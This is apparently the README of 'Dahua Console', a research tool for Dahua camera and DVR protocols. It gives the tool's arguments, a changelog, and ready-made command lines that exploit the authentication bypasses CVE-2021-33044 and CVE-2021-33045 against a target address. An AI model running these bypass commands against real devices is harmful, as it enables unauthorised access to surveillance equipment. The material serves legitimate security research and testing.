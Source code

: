 # Dahua Console

- Version: Pre-alpha
- Bugs: Indeed
- TODO: Lots of stuff

[Install requirements]
```text
sudo pip3 install -r requirements.txt
```

[Arguments]
```text
  -h, --help            show this help message and exit
  --rhost RHOST         Remote Target Address (IP/FQDN)
  --rport RPORT         Remote Target Port
  --proto {dhip,dvrip,3des,http,https}
                        Protocol [Default: dvrip]
  --relay RELAY         ssh://<username>:<password>@<host>:<port>
  --auth AUTH           Credentials (username:password) [Default: None]
  --ssl                 Use SSL for remote connection
  -d, --debug           JSON traffic
  -dd, --ddebug         hexdump traffic
  --dump {config,service,device,discover,log,test}
                        Dump remote config
  --dump_argv DUMP_ARGV
                        ARGV to --dump
  --test                test w/o login attempt
  --multihost           Connect hosts from "dhConsole.json"
  --save                Save host hash to "dhConsole.json"
  --events              Subscribe to events [Default: False]
  --discover {dhip,dvrip}
                        Discover local devices
  --logon {wsse,loopback,netkeyboard,onvif:plain,onvif:digest,onvif:onvif,plain,ushield,ldap,ad,cms,local,rtsp,basic,old_digest,gui}
                        Logon types
  -f, --force           Bypass stops for dangerous commands
  --calls               Debug internal calls
```
---
[Release]

[Update]
2022-07-10

- Added 3des_old logon method for VTH1510CH running V2 software from 2016
  - Minor difference in the login packet data
  - Do not query device parameters on connect - will reset the connection
- Added `--restore config-file.json`
  - Loads json configuration file or parts thereof.

Example:

`./Console.py --rhost 192.168.1.x --proto 3des --auth admin:admin  --logon old_3des --dump config`

[Update]

2021-10-07

Details here: https://github.com/mcw0/PoC/blob/master/Dahua%20authentication%20bypass.txt

2021-10-06


[CVE-2021-33044]

Protocol needed: DHIP or HTTP/HTTPS (DHIP do not work with TLS/SSL @TCP/443)
```text
[proto: dhip, normally using tcp/5000]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto dhip --rport 5000

[proto: dhip, usually working with HTTP port as well]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto dhip --rport 80

[proto: http/https]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto http --rport 80
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto https --rport 443
```

[CVE-2021-33045]

Protocol needed: DHIP (DHIP do not work with TLS/SSL @TCP/443)
```text
[proto: dhip, normally using tcp/5000]
./Console.py --logon loopback --rhost 192.168.57.20 --proto dhip --rport 5000

[proto: dhip, usually working with HTTP port as well]
./Console.py --logon loopback --rhost 192.168.57.20 --proto dhip --rport 80
```
---

